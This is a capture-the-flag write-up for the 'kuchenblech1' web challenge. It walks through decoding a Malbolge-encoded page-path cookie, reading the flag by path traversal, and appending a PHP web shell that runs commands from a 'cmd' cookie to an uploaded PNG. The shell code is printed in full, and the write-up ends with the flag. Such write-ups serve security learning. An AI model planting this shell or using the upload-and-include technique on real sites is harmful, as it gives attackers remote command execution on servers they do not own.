

# Kuchenblech1

The description of the challenge said:

>	kuchenblech1,
	Category: Web,
	Difficulty: Easy (but guessy),
	Author: localo & A2nkF
	
>	This Challenge can only be solved by the chosen one. While many have tried, no one 	has ever managed to solve it. Think you can do it? Then go ahead. But be warned, all your skills are going to be put to the test...
	hax.allesctf.net:5555

The site proposed a login/register page and after the authentication process it showed a real working chat.
A user could post message in this chat, but he also change image profile, which it had to be a PNG.

After a glance at the console, which it shown every request done via web socket to the server, I checked the cookies and the first thing that it have caught my attention was the "nick" cookie value set to the my username.
So, I've tried to change it to "admin", but after refreshing page it's came back with the start value. 
Then I've paid attention to another strange cookie called 'p', its value seemed a base64 sting. 
Decoding the string, it returned another odd string which remember me Malbolge esoteric language. 
```
('%%:^"~}}{zz1Uwutt+0)(Lnmk)"Fhg$#"y?=O_):x[Yotsl2Soh.Oe+vhg9_G$5"!_^W@
```

Decoded string returned_
```
chat.php
```

### Idea

The idea was that the path of the viewed page was stored as value in `p` cookie.

Immediately, I've tried to guess some hidden file, such as admin.php, flag.txt and so on, but none of these files was present.
However, when a page was not found the site was redirected to a fake shell page, with a funny(?) looped Rick Ashley's videoclip , "Never Gonna Give You Up", located in `/public/panic.html`.



### Exploit

There was two way to solve this chall:

##### 1. Guessing/brute forcing all possible flag file-path.

In facts, flag was reachable encoding  `../../flag` in the cookie.

##### 2. Uploading a php shell and pointing the cookie to the uploaded file. 

I tried to upload a PNG modified and system returned successfully. Then, I appended a php shellcode into the image:

```
<?php 
	if(isset($_COOKIE["cmd"])){

		system($_COOKIE["cmd"]);

	}else{

		system("ls");
	}
?>
```
The php code above looks for the "cmd" cookie which contains the command to execute in `system()`.

The last step was to write the image's path into `p` cookie to get the shell.
Even though browser showed profile images as stored in `static/img/profile/` and it gave the new image name in console, I didn't reach the uploaded image via cookie and I got stuck until the end.
After the flag's submissions have been closed, I realized that I missed one piece of the path at the start, `public/`, which I had seen when the site returned me the fake shell.

Therefore, encoding `public/static/img/profile/<image_name>.png` into `p` cookie's value, I had the shell.
> ***NOTE:*** A further encoding step was required from base64 to URLencode.


Playing with `cmd` cookie, It revealed me that flag was in `/flag` directory, and this latter was:

Flag:`ALLES{winner_winner_chicken_dinner}`
